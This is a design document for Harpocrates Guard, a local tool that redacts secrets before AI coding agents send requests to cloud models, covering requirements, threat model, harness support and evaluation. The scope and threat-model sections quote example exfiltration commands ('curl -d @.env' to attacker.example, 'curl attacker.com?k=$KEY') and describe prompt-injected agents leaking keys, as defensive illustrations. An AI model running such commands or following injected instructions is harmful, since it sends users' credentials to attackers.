


# Harpocrates Guard: Design Doc

Sep 25, 2026 · @Josh

## Decision

Build **Harpocrates Guard**: a local security boundary that stops secrets from leaving your machine through AI coding agents (Claude Code, Codex). Ship v1 by Nov 23, 2026, then use its audit log as one telemetry source for a grounded ThreatChain lab in a separate repo.

This is neither my earlier proposal nor ChatGPT's roadmap as written. It takes the best of each:

- **From ChatGPT's roadmap:** finish Harpocrates first, keep detection deterministic with AI in a supporting role, and connect projects into one story instead of eight repos.
- **From my proposal:** one finished flagship with real eval numbers and an adversarial red-team section, scoped to what one student can ship during recruiting season.
- **From your idea:** the redacting read tool. It turns Harpocrates from a commit-time scanner into a data-loss-prevention (DLP) boundary around AI agents, which is exactly where the security industry is moving.

Why this beats starting the Mini-EDR first:

1. **It's 60% built.** The Rust core, ONNX runtime, and MCP server exist on side branches. The fastest path to a finished, impressive repo runs through them.
2. **Your resume already claims it.** Recruiters will click github.com/Skipa776. The repo has to match the resume before you apply widely.
3. **It teaches the core principles of security engineering directly:** complete mediation, fail-safe defaults, threat modeling, and adversarial evaluation (see Principles).
4. **It can stand out.** Redaction proxies already exist (see Market and differentiation), so the idea alone isn't new. What stands out is measured evidence: leakage, evasion, and utility results, including against competing tools.
5. **It serves your consumer motivation.** Like REFLEX, it protects individual developers, not just enterprises.

The Mini-EDR and ThreatChain work still happens, in a separate lab repo, grounded in real telemetry.

## Problem

AI coding agents read files and run commands, then send the results to a cloud LLM. Any secret they touch leaves the machine. Nothing in the default setup stops that.

Typical paths a secret takes to the cloud:

- The agent opens `.env`, `config.yaml`, or `~/.aws/credentials` to debug a connection error.
- The agent runs `cat`, `grep`, `env`, `git log -p`, or a test that prints a connection string. The output becomes a tool result sent upstream.
- A secret appears in a stack trace, a log file, or a diff the agent summarizes.
- A prompt-injected agent deliberately reads and encodes a secret, for example from instructions hidden in a README or issue.

Harpocrates today works at commit time. By then the secret has already been sent to the LLM provider during the session. Guard moves the check to the point where data leaves the machine.

## Market and differentiation

A local proxy that redacts secrets before an AI agent calls a cloud model is not new. Harpocrates must differentiate on detection quality, agent coverage, fail-closed guarantees, and published evidence, not on the idea itself.

**Verified comparable tools** (checked Sep 27, 2026)

| Tool | What it does | Relevant gaps it documents |
| --- | --- | --- |
| [RedactProxy](https://github.com/CSPF-Founder/redactproxy) | Go proxy for the Anthropic Messages API; stable fake values out, real values restored in responses; built for pentest engagements | Regex only; encoded data passes; the `system` field and HTTP headers are never scanned; signed thinking blocks can't be rewritten; OpenAI-format agents like Codex aren't supported |
| [claude-code-redact](https://github.com/paroque28/claude-code-redact) | Python proxy plus hooks; regex, entropy, context rules, optional NLP for personal data; un-redacts responses | Notes that Claude Code hooks can't modify Read or Grep output, which confirms the proxy approach |
| [Agent Quarantine](https://github.com/spacegiyou/agent-quarantine) | Rust command firewall using shims on `PATH`, with a `preflight` command for repos | Absolute-path binaries bypass the shims; not a sandbox |
| Claude Code and Codex built-in sandboxing | Operating-system level file and network isolation | Guards execution, not the content sent to the model |

The other projects in the ChatGPT review (leak-guard, llm-guard, Stroq, Cerberus, Airlock, mcpwall, mcp-scan) were not checked here. Verify each before citing it.

**What Harpocrates does differently**

1. **Contextual ML detection with published accuracy.** The tools above use regex and entropy only. Harpocrates adds a trained classifier for ambiguous candidates and decodes base64, hex, and URL encoding before rescanning.
2. **Multiple harnesses.** Designed to parse Anthropic Messages, OpenAI Responses, and OpenAI Chat Completions, covering Claude Code, Codex, OpenCode, and Copilot's bring-your-own-key mode.
3. **No placeholder restoration by default.** Competitors swap real values back into responses. That lets a prompt-injected model aim a placeholder at an attacker's server and have the proxy fill in the real secret. Harpocrates doesn't restore by default (see Key design decisions).
4. **Fail closed and scan everything,** including the `system` field and history, with an explicit policy for content that can't be rewritten.
5. **Head-to-head evidence.** The same leakage, evasion, and utility benchmarks run against competitors, with results published either way.

**Research question:** How reliably can a local reference monitor prevent realistic credential leakage from AI coding agents without materially reducing task performance?

**Anti-bloat rule:** a feature belongs in Harpocrates only if it answers one of two questions. "What am I about to send to the model?" (Guard) or "What am I about to run from this untrusted repo?" (Preflight). Everything else is delegated: Socket and OSV for packages, the agents' own sandboxes for isolation, GitHub secret scanning for hosted repos.

**Product principles**

- Local-first: no account, no cloud service, no uploaded code or telemetry.
- Quiet when safe: nothing visible during normal work.
- Explain every block with concrete evidence: the secret type and where it came from, never an opaque score.
- Deterministic enforcement: no cloud LLM decides what is allowed. An LLM may help explain findings.
- Easy but explicit overrides: `harpo allow --once`, always logged.
- Publish failures: known bypasses, unsupported transports, and unprotected channels.
- Claim carefully: say "we did not find an open-source tool in our review that combines these properties," never "nothing else does this."

## Goals and non-goals

**Goals**

1. Zero known-format canary secrets reach the LLM provider in the test harness, across every read path the agent has (read tool, shell, grep, git, MCP tool results).
2. Keep agents useful: task resolve rate within 3 percentage points with Guard on versus off, shown by an equivalence test.
3. Add less than 50 ms p95 latency per LLM request.
4. Fail closed: if the scanner crashes or times out, the request is blocked, not forwarded unscanned.
5. Never store or log a plaintext secret, anywhere, including Guard's own logs.
6. Full protection for Claude Code and Codex in v1 (OpenCode and Copilot if M3 has room), clearly labeled partial support elsewhere, and setup under 5 minutes.
7. Publish a reproducible benchmark and an evasion test suite with the results.

**Non-goals (v1)**

- Stopping a fully compromised agent from exfiltrating through other channels, such as `curl` to an attacker's server. That needs network sandboxing; Guard documents it as residual risk.
- General PII detection (names, SSNs). Possible later extension.
- Protecting against a malicious local user. The user owns the machine.
- Guaranteeing zero leakage of novel or unusually formatted secrets. Guard reduces risk and measures what gets through.

## Scope boundary

Guard v1 protects one boundary: data leaving the machine toward the configured LLM provider. Detecting a malicious agent exfiltrating through any other channel is out of scope for the product. It belongs to a behavior sensor built in the separate lab repo.

**Why redaction can't stop a malicious agent.** The model doesn't need to see a secret to steal it. A prompt-injected agent can issue `curl -d @.env https://attacker.example` and the file moves directly from disk to the attacker. The secret never enters the model's context, so the egress gate never sees it. Stopping that needs a different mechanism: watching tool calls, file access, and network destinations. That is agent behavior monitoring, closer to an EDR than to data loss prevention.

| Question | Guard v1 | Behavior sensor (lab repo) |
| --- | --- | --- |
| What it asks | Does this provider-bound request contain a secret? | Did the agent access sensitive data, then act in a way consistent with exfiltration? |
| Injected agent echoes a secret in its reply | Covered: the gate redacts it before the provider sees it | Also logged |
| Injected agent runs `curl`, DNS tricks, or writes a secret into a public PR | Not covered; documented residual risk | Covered: sensitive read, then encoding, then new outbound destination |
| Mechanisms | Detection, redaction, fail closed | Event correlation, sequence rules, network and process telemetry |

**v1 prepares for the lab without building it.** Every Guard event carries `session_id` and `event_type` (`secret_read`, `secret_redacted`, `request_blocked`, `tool_invoked`). The gate can log each tool call the model requests, since it already parses responses. No provenance tracking, taint propagation, or correlation in v1.

**Lab documentation:** when the behavior sensor starts, it gets its own threat model, requirements, and evaluation plan, not an appendix to this doc.

## Requirements

Every requirement has an ID, a milestone, and a test that proves it. Reference IDs in commits, pull requests, and tests (for example `test_fr_gate_03_fail_closed`).

**Scope clarification:** Guard does not wrap or replace the agent's shell tool. A shell can read a file in unlimited ways, so wrapping it can never be complete. The read tool handles normal file reads with file context. The egress gate covers everything else, including shell output, on its way to the provider.

**Core detection (harpo-core)**

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-CORE-01 | Detect secrets through regex, then entropy, then the ONNX model, in one Rust library with Python bindings | Existing Python test suite passes against the Rust core on main | M0 |
| FR-CORE-02 | Label each finding with a secret type: cloud key, API token, database credential, private key, password, generic | Per-type precision and recall reported | M1 |
| FR-CORE-03 | Output a calibrated confidence score from 0 to 1 | Calibration curve and expected calibration error published | M1 |
| FR-CORE-04 | Decode base64, hex, and URL-encoded strings, then rescan the decoded content | Evasion suite cases for each encoding pass | M3 |
| FR-CORE-05 | Scan streamed input in chunks with a configurable size cap | 100 MB input scanned without exceeding memory cap | M2 |
| FR-CORE-06 | Separate thresholds per layer: recall-favoring for the gate, precision-favoring for commits | Thresholds set in config; both documented with their precision and recall | M1 |

**Read tool (harpo-read)**

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-READ-01 | MCP tools `safe_read` (with line ranges) and `safe_grep` that return redacted content | Canary repo read with 0 canaries in tool output | M1 |
| FR-READ-02 | Typed placeholders `<<HARPO:type:hash4>>`, identical for the same secret within a session | Same secret in two files gets the same placeholder | M1 |
| FR-READ-03 | Setup docs and config for each Full-tier harness that deny the built-in read tool on sensitive paths and route reads to `safe_read` | Fresh machine setup in under 5 minutes, verified by someone else | M1 |
| FR-READ-04 | Warn when the agent writes a placeholder into a file | Write containing a placeholder produces a visible warning | M2 |

**Egress gate (harpo-gate)**

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-GATE-01 | Localhost proxy that the agent's API base URL points to; forwards over TLS to the real provider | Agent completes a normal session through the proxy | M2 |
| FR-GATE-02 | Written parser spec per provider format (Anthropic Messages and OpenAI Responses in v1; OpenAI Chat Completions when the Copilot adapter ships) covering text, tool calls, tool results, and system prompts | Spec in `docs/`; parser tests for every content-block type | M2 |
| FR-GATE-03 | Fail closed on scanner error, timeout, or unparseable request; explicit logged override flag | Killed scanner, timeout, and malformed request all blocked | M2 |
| FR-GATE-04 | Scan the full request each turn, including history, not only the newest message | Secret planted in turn 1 history is redacted in turn 5 | M2 |
| FR-GATE-05 | Deterministic placeholders so the unchanged start of each request stays identical and provider prompt caching still works | Cache hit rate with Guard on within 5 points of Guard off | M3 |
| FR-GATE-06 | Stream responses back to the agent unchanged (server-sent events) | Streaming works end to end in both agents | M2 |
| FR-GATE-07 | Defined policy for images and PDFs in requests: block, pass with warning, or OCR; default is pass with warning in v1 | Policy documented and tested | M2 |
| FR-GATE-08 | User-approved allowlist by path or secret hash, every use logged | Allowlisted secret passes; log entry exists | M3 |
| FR-GATE-09 | Confirm the transport each agent uses (HTTP, server-sent events, WebSocket) and support it | Transport notes in `docs/`; both agents work | M2 |
| FR-GATE-10 | Content the gate can't rewrite, such as signed thinking blocks: if it contains a detected secret, block the request and tell the user to start a new session | Secret planted in a signed block triggers a block with a clear message | M2 |

**Commit gate, logging, and setup**

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-COMMIT-01 | Pre-commit hook and CLI scan staged changes and full git history | Planted historical secret found | M0 |
| FR-COMMIT-02 | SARIF output and a GitHub Action that uploads findings to code scanning | Findings visible in a demo repo's Security tab | M3 |
| FR-LOG-01 | JSONL audit log, one line per finding: time, layer, type, keyed hash prefix, source, action, session ID | Log schema test; grep of logs finds no canary values | M2 |
| FR-LOG-02 | Log fields follow a subset of OCSF so later components can consume them | Field mapping documented | M3 |
| FR-UX-01 | One command, `harpo guard up`, starts the gate; per-harness setup is covered by FR-INSTALL | Demo video shows setup from scratch | M3 |

**Non-functional and security**

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| NFR-01 | Added latency under 50 ms p95 per request | Latency benchmark in CI | M3 |
| NFR-02 | Task resolve rate within 3 points with Guard on vs off | Utility benchmark method below | M3 |
| SEC-01 | Never store or log a plaintext secret | Automated grep of all logs and temp files after the canary run | M2 |
| SEC-02 | HMAC with a random in-memory per-session key for placeholders and logs | Code review plus a test that keys differ across sessions | M1 |
| SEC-03 | Proxy binds to 127.0.0.1 only and requires a per-session token header | Request without the token rejected | M2 |
| SEC-04 | Fuzz the request parser | cargo-fuzz target runs in CI for a fixed time budget | M3 |
| SEC-05 | Pinned dependencies, config checksum at startup, and a `SECURITY.md` | Files present; tampered config refused | M3 |
| SEC-06 | Document residual risks: other exfiltration channels, agent transcripts saved to local disk with raw tool output, and agent traffic that bypasses the API base URL (such as feature flags and token refresh) | Threat model doc lists all three | M1 |

**Documentation and data**

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| DOC-01 | README first screen: one-sentence pitch, demo GIF, results table, architecture diagram, 3-line quickstart | Reviewed by someone outside the project | M3 |
| DOC-02 | Dataset provenance and license for all training and benchmark data | `docs/data.md` exists | M0 |
| DOC-03 | Published known-bypass list | `docs/bypasses.md` exists and matches the evasion results | M3 |

## Threat model

The trust boundary is the network edge between your machine and the cloud LLM provider. Everything that crosses it is treated as potentially leaked.

**Assets:** API keys and tokens, cloud credentials, database connection strings, private keys, and passwords embedded in code or config.

| Scenario | Actor | Example | Guard's response | Residual risk |
| --- | --- | --- | --- | --- |
| Accidental read | Well-meaning agent | Opens `.env` to debug a failing DB connection | Read tool redacts; egress gate catches anything missed | Low |
| Indirect exposure | Well-meaning agent | Test output or stack trace prints a connection string | Egress gate scans every tool result | Low to medium; depends on detector recall |
| Obfuscated secret | Accident or attacker | Secret is base64, hex, URL-encoded, or split across lines | Decode-and-rescan pass; evasion suite measures gaps | Medium; measured and published |
| Prompt-injected agent, same channel | External attacker via README, issue, or web page | Injected text tells the agent to read a key and echo it in its reply | Egress gate redacts it before it reaches the model | Medium; encoding tricks are the weak point |
| Prompt-injected agent, other channel | External attacker | Agent runs `curl attacker.com?k=$KEY` | Out of scope for v1; canary tokens can detect it after the fact | High; mitigation is a network sandbox |
| Guard failure | Bug or crash | Scanner panics mid-request | Fail closed: block the request, log the error | Low |

**STRIDE notes on Guard itself:**

- **Tampering:** a rogue MCP server or dependency could modify Guard's config. Mitigation: config file checksum on startup, pinned dependencies.
- **Information disclosure:** Guard's own logs are a secret store if done wrong. Mitigation: log keyed hashes only, never values.
- **Denial of service:** very large tool outputs could slow scanning. Mitigation: streaming scan with a size cap; oversized content fails closed or is truncated with a notice.
- **Spoofing:** anything else on localhost can talk to the proxy port. Mitigation: bind to 127.0.0.1 only and require a per-session token header.

## Architecture

Guard is defense in depth: two layers catch secrets on the way out, and the existing commit gate catches them on the way into git. All layers share one Rust detection core.



| Component | What it does | Status | Language |
| --- | --- | --- | --- |
| harpo-core | Three-stage detector (regex, Shannon entropy, XGBoost via ONNX). Adds secret-type labels, calibrated confidence, and a decode-and-rescan pass for base64, hex, and URL encoding. Streaming API for large inputs. | Exists on a side branch; needs merge and typing | Rust, Python bindings |
| harpo-read | MCP server with `safe_read` and `safe_grep`. Returns file content with secrets replaced by placeholders. Paired with agent config that denies the built-in read tool on sensitive paths. | MCP server exists; read tool is new | Python or Rust |
| harpo-gate | Local HTTP proxy. The agent's API base URL points here. Parses every request body, scans all text and tool-result blocks, redacts, then forwards over TLS to the real provider. Streams responses back unchanged. | New | Rust (axum or hyper) |
| harpo-commit | Existing pre-commit hook and CLI, plus a GitHub Action and SARIF output for GitHub code scanning. | Partly exists | Python CLI over core |
| Audit log | One JSONL line per finding: timestamp, layer, secret type, keyed hash prefix, source path or tool name, action taken. | New | Shared |

**Why two layers on the way out:** the read tool alone is incomplete, because the agent can still `cat` a file through the shell. The egress gate sees everything sent to the model, whatever tool produced it. That is the reference-monitor property called complete mediation. The read tool still earns its place: it has file context (path, type) that improves accuracy, and it redacts before the agent's own local context holds the secret.

**Why a proxy needs no TLS interception:** the agent sends plain HTTP to 127.0.0.1, and Guard opens its own TLS connection upstream. There is no certificate trickery. Harness support and installer lists how each agent is pointed at the gate, and which ones can't be.

## Harness support and installer

Not every coding harness can be routed through a local proxy, so Harpocrates states a support tier per harness instead of implying equal protection. The installer is one adapter per harness, verified by a live check after setup. (Checked Sep 27, 2026.)

| Harness | Tier | Request format | How traffic reaches the gate | Known issues |
| --- | --- | --- | --- | --- |
| Claude Code | Full | Anthropic Messages | [`ANTHROPIC_BASE_URL`](https://code.claude.com/docs/en/llm-gateway) in Claude Code settings | Subscription logins still work; the gate must forward the OAuth `anthropic-beta` header untouched |
| Codex CLI | Full | OpenAI Responses | Custom provider in user-level `~/.codex/config.toml`; [project-level provider keys are ignored](https://learn.chatgpt.com/codex/config-file/config-reference) | Request bodies are zstd-compressed by default; WebSocket mode exists |
| OpenCode | Full, per provider | Varies by provider | Provider `baseURL` in [opencode.json](https://opencode.ai/docs/config/) | A repo's own `opencode.json` can override global config |
| GitHub Copilot, own API key | Partial | OpenAI Chat Completions | [Custom endpoint for chat and agent](https://developer.konghq.com/cookbooks/github-copilot-byok/) | Inline completions and Copilot-hosted models never pass through the gate |
| Cursor | Read tool only | n/a | [Base URL override covers only the chat panel](https://docs.orq.ai/ai-studio/integrations/code-assistants/cursor) | Agent, Composer, and tab completion stay on Cursor's backend; possibly routed server-side (unverified) |

**Installer requirements**

| ID | Requirement | Acceptance test | Milestone |
| --- | --- | --- | --- |
| FR-INSTALL-01 | One adapter per harness that writes gate routing, MCP registration, and read-deny rules in that harness's own config format and location | Adapter tests per harness on a clean machine | M2 |
| FR-INSTALL-02 | `harpo doctor` sends a canary through each configured harness and confirms the gate saw and redacted it; warns loudly if traffic bypassed the gate | Deliberately broken config is detected as bypass | M2 |
| FR-INSTALL-03 | Print the support tier for each detected harness; tell Read-tool-only users plainly what isn't protected | Output reviewed for each tier | M1 |
| FR-INSTALL-04 | Decode gzip and zstd request bodies; fail closed on any unknown `Content-Encoding` | Compressed Codex requests scanned; unknown encoding blocked | M2 |
| FR-INSTALL-05 | Forward authentication headers untouched, including subscription and OAuth headers, and never log them | Claude Code subscription session works through the gate | M2 |
| FR-INSTALL-06 | Prefer settings files over shell environment variables, since IDE extensions launched from a dock or menu don't inherit shell variables | IDE-launched session routes through the gate | M2 |
| FR-INSTALL-07 | If a base URL or gateway is already configured, chain to it as Guard's upstream instead of overwriting it | Existing gateway still receives traffic | M3 |
| FR-INSTALL-08 | Back up every config file before editing; installs are idempotent; `harpo guard down` restores originals exactly | Byte-identical restore after install and uninstall | M2 |
| FR-INSTALL-09 | Record the harness versions each adapter was tested against; doctor warns on untested versions | Version table in `docs/`; warning shown | M3 |
| FR-INSTALL-10 | Where the harness supports lifecycle hooks (Claude Code, Codex), use them for placeholder-write warnings and `tool_invoked` logging | Hook events appear in the audit log | M3 |

**Scope:** Claude Code and Codex are required for v1. OpenCode and Copilot adapters ship in v1 only if M3 has room; otherwise they move to v1.1. Cursor gets the read tool only, plus documentation of its limits.

## Product and portfolio map

Harpocrates the product stays small: two trust boundaries around an AI coding session. Your detection engineering work lives in a separate lab repo that consumes Harpocrates events. The product stays usable, and the portfolio still tells one story.



| Piece | Where it lives | Built from | Job |
| --- | --- | --- | --- |
| `harpo guard` | Product, v1 | Harpocrates | Stop secrets leaving for the model |
| `harpo scan` | Product, v1 | Harpocrates CLI | Commit-time and CI scanning |
| `harpo inspect` | Product, v1.2 | New | Show what an untrusted repo will execute, without running it |
| URL scoring in preflight | Product, v1.2 | Phishing-Link-Detection | Score download and fetch URLs found in scripts and agent instruction files |
| ThreatChain investigation | Lab repo | ThreatChain | Correlate Harpocrates and host events into incidents, map to ATT&CK and ATLAS, explain with cited events |
| Behavior rules and network sensor | Lab repo | CIC-IDS2017-EDA, new rules | Detect exfiltration through other channels; distribution-shift study on your own lab traffic |

**Why the split:** the detection engineering pieces are valuable for your resume but would violate the anti-bloat rule inside the product. As a lab that consumes the product's events, they show you can both build a security control and detect what gets past it.

**Not included:** basketball-advisor and the portfolio site (engineering evidence only), the ServiceNow tool (work code; discuss with metrics), and REFLEX (separate research; can use the lab as its test range).

## Repo preflight (v1.2)

`harpo inspect` reads an untrusted repository without executing anything and shows which commands and files would run, and what they request, before you or your agent run setup. It targets real attacks: fake job-interview repos and malicious setup scripts that steal credentials from developers.

**Not novel on its own.** Agent Quarantine already ships a `preflight` command. Harpocrates' version is worth building only if it adds URL scoring, agent instruction file analysis, trust caching, and a measured benchmark.

**Honest limits of static analysis.** Preflight can reliably find entry points: package scripts, lifecycle hooks, git hooks, Makefiles, agent instruction files, and MCP startup commands. It can flag risky primitives in them, like `curl | bash`, `base64` decoding, or reads of credential paths. It cannot reliably trace what arbitrary JavaScript or Python will do: real attack campaigns hide payloads in minified or obfuscated files. So it reports "these entry points will run, and these contain risky primitives," never "this repo is safe." A clean preflight result is not a safety guarantee.

**Requirements**

| ID | Requirement | Acceptance test |
| --- | --- | --- |
| FR-PF-01 | Never execute repository code during inspection | Fixture repos with payloads that would write a marker file; the marker never appears |
| FR-PF-02 | Enumerate entry points: `package.json` scripts and lifecycle hooks, `setup.py` and build hooks, `Cargo` build scripts, Makefile and justfile targets, git hooks and `core.hooksPath`, VS Code tasks, devcontainer and Docker entrypoints, MCP server configs | Each entry point type covered by a fixture |
| FR-PF-03 | Scan agent instruction files (`AGENTS.md`, `CLAUDE.md`, `.cursorrules`, `.github/copilot-instructions.md`, skill files) for execution requests and credential path references | Fixture instructions flagged with file and line |
| FR-PF-04 | Flag risky primitives in entry points: download-and-execute, encoded commands, credential path reads, persistence commands | Per-primitive fixtures |
| FR-PF-05 | Score URLs found in entry points and instruction files with the URL model | URL fixtures scored; latency under 5 ms per URL |
| FR-PF-06 | Explain each finding as an execution chain in plain words, with file and line; no numeric risk score | Output review against the design principles |
| FR-PF-07 | Cache trust by hashing entry point files and instruction files; re-prompt only when one changes | Changing a script invalidates trust; unchanged repo stays quiet |
| FR-PF-08 | Optionally call OSV for dependency advisories; no Harpocrates package reputation database | OSV lookup works offline-tolerant (skips cleanly when offline) |
| FR-PF-09 | Finish in under 2 seconds on a small to medium repo; skip `node_modules`, `.git`, build output, and binaries by default | Timed on 20 benchmark repos |

**Untrusted Repo Benchmark:** inert fixture repos (no live malware, no working payloads, fake canary secrets only) modeled on fake-interview and malicious-setup attacks, plus benign lookalikes. Measure detection rate, false-warning rate on popular benign repos, inspection time, and the share of benign repos needing any user action.

## Key design decisions

| Decision | Choice | Alternative rejected | Why |
| --- | --- | --- | --- |
| Placeholder format | `<<HARPO:aws_access_key:7f3a>>`, typed with a short keyed hash | Generic `[REDACTED]` | The model still knows what kind of value was there, so it can reason about the code. The same secret gets the same placeholder within a session, so references stay consistent. |
| Hashing | HMAC with a random per-session key held in memory | Plain SHA-256 | Plain hashes of short secrets can be brute-forced. A keyed hash that disappears with the session can't be reversed later from logs. |
| Restoring real values in responses or file writes | Off by default | Swap placeholders back to real values, as RedactProxy and claude-code-redact do | Restoring lets a prompt-injected model point a placeholder at an attacker's server and have Guard fill in the real secret, a confused-deputy attack. v1 warns when the agent writes a placeholder into a file instead. Revisit later only with an allowlist of safe destinations. |
| Failure mode | Fail closed, with a clear error the agent and user can see | Fail open | Security tools that fail open get bypassed by the first crash. Offer an explicit, logged override flag for emergencies. |
| Detection threshold | Favor recall at the egress gate; favor precision at the commit gate | One threshold everywhere | Over-redacting a model request costs a little utility. A false positive at commit time interrupts a developer and erodes trust in the tool. |
| Deliberate access | User-approved allowlist by path or secret hash, logged | Silent bypass | Some tasks truly need the value, like debugging auth. The approval is visible and auditable. |
| Response direction | Pass model responses through; only flag placeholders echoed into tool calls | Scan responses too | Responses come from the provider, which already saw the request. The leak happens on the way out. |
| Scope of scanning | All text in the request, including system prompt, history, and tool results | Only the newest message | Conversation history is re-sent on every turn. Scanning only the newest message misses secrets from earlier turns that slipped through before a rule update. |

## Evaluation plan

The headline result is a leakage rate measured at a mock LLM server, not a classifier score. A secret either reached the provider or it didn't.

**Test harness:** point the agent at a local mock API server that records every request it receives. Plant canary secrets (realistic but fake keys in real formats) across a test repo, then run scripted and live agent sessions. Count how many canaries appear in recorded requests, with Guard off versus on, and with RedactProxy and claude-code-redact on the same inputs wherever they support the agent.

| Suite | What it measures | Metrics | v1 target |
| --- | --- | --- | --- |
| Detector benchmark | Core accuracy on labeled code | Precision, recall, F1 per secret type; false positives per 1,000 files; calibration curve | Recall 0.95 or higher; publish all numbers |
| Hard negatives | False alarms on things that look secret | FP rate on UUIDs, hashes, minified JS, lockfiles, test fixtures, doc examples | Fewer than 2 per 1,000 files |
| Leakage via read paths | Complete mediation | Canaries reaching the mock server through read tool, `cat`, `grep`, `git log -p`, `env`, test output, MCP tool results | 0 known-format canaries |
| Evasion | Robustness to encoding | Leak rate for base64, hex, URL-encoded, split-line, reversed, JSON-escaped, and spaced-out secrets | Measure and publish; fix the top 3 gaps |
| Prompt-injection red team | Adversarial agent behavior | Leak rate when a planted README instructs the agent to reveal a key, with Guard off vs on | Published before and after numbers |
| Utility cost | Does the agent still work? | Resolve rate on a 50 to 100 task SWE-bench Verified subset with planted canaries, Guard off vs on | Within 3 points (equivalence test) |
| Performance | Overhead | p50 and p95 added latency per request; throughput on a large repo scan | p95 under 50 ms |
| Fail-closed | Safety under failure | Behavior when the scanner is killed, times out, or gets malformed input | 100% blocked, none forwarded |

**Rigor notes:**

- Split train and test data by repository, not by random sample. Random splits let near-duplicate code leak between sets, which inflates scores.
- Keep the evasion and red-team suites separate from training data, and never tune on them.
- Report failures honestly. A published list of known bypasses is more credible to a security interviewer than a perfect score.

### Utility benchmark method

The claim to prove is that swapping in Guard causes no meaningful drop in agent performance. One benchmark measures that claim and the security benefit at the same time.

1. **Harness:** run Claude Code and Codex, the agents people actually use. Use a minimal harness such as mini-swe-agent only for tightly controlled experiments.
2. **Tasks:** a fixed subset of 50 to 100 SWE-bench Verified tasks, chosen with a recorded random seed. The full set is too expensive.
3. **Canaries:** plant realistic fake secrets in each task repo (`.env`, config files, a test fixture, a log file). Without them the run proves no security benefit.
4. **Paired runs:** same model, same tasks, Guard off and Guard on, 2 to 3 attempts each, since agents are nondeterministic.
5. **Pre-registered margin:** write the equivalence margin (3 percentage points) in the repo before the first run. Test it with two one-sided tests (TOST). "No significant difference" is not the claim; "equivalent within 3 points" is.
6. **Report:**
   - resolve rate with 95% confidence intervals
   - canaries leaked, off vs on
   - p50 and p95 added latency
   - tokens used
   - prompt-cache hit rate
   - every task where outcomes differ, with a short explanation

**Cost control:** run the full benchmark only at M3 and at releases. Use a 10-task smoke subset in development.

## Detector training data

Rebuild the training set so the model learns what separates real credentials from secret-like strings in real code, not what Gemma thinks a secret looks like. The current model ships in v1 and becomes the baseline; the rebuilt model ships as v1.1.

**Current data:** labeled data from open research sets and scanner fixtures (TruffleHog and other detectors), plus about 40K samples generated by Gemma 4 4B.

**Detection architecture change:** known provider formats (AWS, GitHub, Stripe, Slack, private key headers) are caught by deterministic rules. The ML model only decides ambiguous candidates, like `password = "PurpleDog197!"` versus `checksum = "M9xKk02pf..."`. Report metrics for the full pipeline and for the ML stage separately.

**Four datasets, never mixed**

| Dataset | Purpose | Source |
| --- | --- | --- |
| Training | Teach the classifier | Deterministic fake secrets injected into real open-source code, real negatives, hard negatives, existing research sets, Gemma samples as augmentation |
| Validation | Thresholds and calibration | Separate repositories |
| External test | Real-world generalization | An independent, manually labeled benchmark such as [SecretBench](https://github.com/setu1421/SecretBench), used once per release |
| Adversarial test | Robustness to evasion | Harpocrates mutation suite |

**Data requirements**

| ID | Requirement | Acceptance test |
| --- | --- | --- |
| DATA-01 | Audit the existing research sets: list each one, its license, and whether any overlaps the external test set. Anything that overlaps is removed from training, or a different external test set is chosen. | `docs/data.md` lists every source with license and overlap check |
| DATA-02 | Deterministic generators per provider with documented prefix, length, and character set; every sample records generator version and seed. All values fake and non-live. | Generator unit tests; format validated against provider docs |
| DATA-03 | Generic passwords come from human-like patterns (words, digits, symbols), not uniform random strings, because people choose them | Password generator produces patterned output; tested separately |
| DATA-04 | Inject secrets into real, permissively licensed open-source files across many file types and insertion styles, including neutral variable names, so the model can't shortcut on names like `SECRET_KEY` | Per-insertion-style metrics; a neutral-name slice is reported |
| DATA-05 | Mine hard negatives from Gitleaks, TruffleHog, and Harpocrates false positives. Label by known structures (hashes, integrity values, UUIDs) plus manual review of a random sample of at least 500 to estimate label noise. | Label-noise estimate published |
| DATA-06 | Every sample records source, generator, repo ID, file type, and language | Schema test on the dataset |
| DATA-07 | Deduplicate exact and near-duplicate samples; split by repository before generating derived samples | Zero repositories shared between splits |
| DATA-08 | Gemma samples tagged `llm_synthetic`, deduplicated, and capped at 10 to 20% of positives unless the ablation shows they help | Provenance field present; share reported |
| DATA-09 | Never train, tune thresholds, or pick features on the external or adversarial test sets. After freezing a release, results on them are kept even if a later version improves. | Frozen model hash recorded with each result |
| DATA-10 | Publish generation scripts and a repository list rather than raw third-party code, and never commit data containing real secrets | Repo review; external benchmark files excluded by `.gitignore` |

**Experiments worth publishing**

